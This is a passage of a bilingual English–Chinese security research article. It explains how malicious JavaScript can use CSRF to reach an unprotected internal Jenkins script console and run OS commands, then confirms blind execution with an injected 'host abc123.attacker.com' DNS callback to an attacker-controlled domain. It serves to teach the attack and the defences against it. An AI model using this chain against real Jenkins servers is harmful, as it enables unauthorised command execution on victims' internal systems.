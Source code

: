 ### 选择攻击方式

As an attacker, we can make a malicious JavaScript that submits the form shown above. Note that due to SOP, this JavaScript will not be able to read the response. However, the OS command will still be executed, and that is enough to compromise the service. Shortly, we will look at how to verify command execution despite not being able to read the response.
 
Depending on the configuration, authentication might or might not be required to access the script console. Even if authentication is required, we can still access the script console via CSRF, as long as the user is currently logged on to Jenkins. The reason is that the browser will add any authentication cookies to our request (if we set ‘request.withCredentials = true;’) – the attacker does not need to know them. What matters is whether Jenkins is configured with CSRF protection or not.

Typically, people attempt to configure public facing servers securely, but often neglect the security of internal servers. This oversight is often even more pronounced with local services, with the (flawed) rationale that the host-based firewall prevents access to it. Therefore, there is a good chance that the found Jenkins instance is configured insecurely. With this in mind, let’s prepare an attack assuming the Jenkins instance is not configured with CSRF protection.

作为攻击者，我们可以制作提交上述表单的恶意 JavaScript。注意由于同源策略的先知，此 JavaScript 将无法读取响应。但是，系统命令仍将执行，这足以攻击服务。稍后，我们将研究如何在无法读取响应的情况下验证命令的执行。
 
根据配置，访问脚本控制台可能需要也可能不需要身份验证。即使需要身份验证，我们仍然可以通过 CSRF 访问脚本控制台，只要用户当前登录到 Jenkins 即可。原因是浏览器会在我们的请求中添加任何身份验证 cookie（如果我们设置 'request.withCredentials = true;'） - 攻击者不需要知道它们。重要的是 Jenkins 是否配置了 CSRF 保护。

通常，人们会尝试安全地配置对外开放的服务器，但往往忽视内部服务器的安全性。对于本地服务而言，这种疏忽通常更为明显，基于主机的防火墙（有缺陷的）阻止访问是有理由的。因此，很有可能找到没有进行安全配置的 Jenkins 实例。考虑到这一点，假设 Jenkins 实例未配置 CSRF 保护，让我们准备一次攻击。

> Note: We are not releasing any Jenkins zero-day, the insecure configuration we take advantage of is a known issue (in a non-default configuration) \[23\]. We could have picked any vulnerability, but decided to use Jenkins as an illustrative example.

> 注意：我们没有发布任何 Jenkins 零日漏洞，我们利用的不安全配置是一个已知问题（在非默认配置中）\[23\]。我们本可以选择任何漏洞，但决定使用 Jenkins 作为说明性示例。

### 通过 DNS 验证命令盲注技术

For brevity, and to avoid the details of establishing a persistent presence on the victim, let’s settle for verifying that an injected command actually runs. A simple way to verify command injection that almost always works in a blind injection scenario is to have the victim make a DNS query that will be resolved by a DNS server in the attacker’s control. In our setup, we have control over the DNS servers for the domain attacker.com. Therefore, let’s inject the following command into the Jenkins script console: host abc123.attacker.com. By looking in the DNS query logs, we can simply verify from our position outside the target network that the OS command actually ran.

简略起见，为了避免在受害者上遗留建立持久化连接的细节的细节，让我们验证注入的命令是否实际运行。一个通常能否验证盲注情形中命令的执行情况的简单的方法是让受害者向攻击者控制的 DNS 服务器发出 DNS 请求。在我们的设置中，我们可以控制 attacker.com 域的 DNS 服务器。因此，让我们将以下命令注入 Jenkins 脚本控制台：`host abc123.attacker.com`。 通过查看 DNS 查询日志，我们可以简单地验证从目标网络外部的位置系统命令实际运行情况。

> Note: This verification is not dependent on the victim being able to directly access the DNS servers for the attacker.com domain. Instead, what happens is this: when the victim runs the JavaScript, Jenkins will run the OS command, which will cause a DNS query to be sent to the internal DNS server of the victim, which will in turn forward it, and it will eventually get to the authoritative DNS server of the attacker.com domain. (Essentially, the only way to block this would be to prevent DNS lookups completely, something which is rarely feasible.)
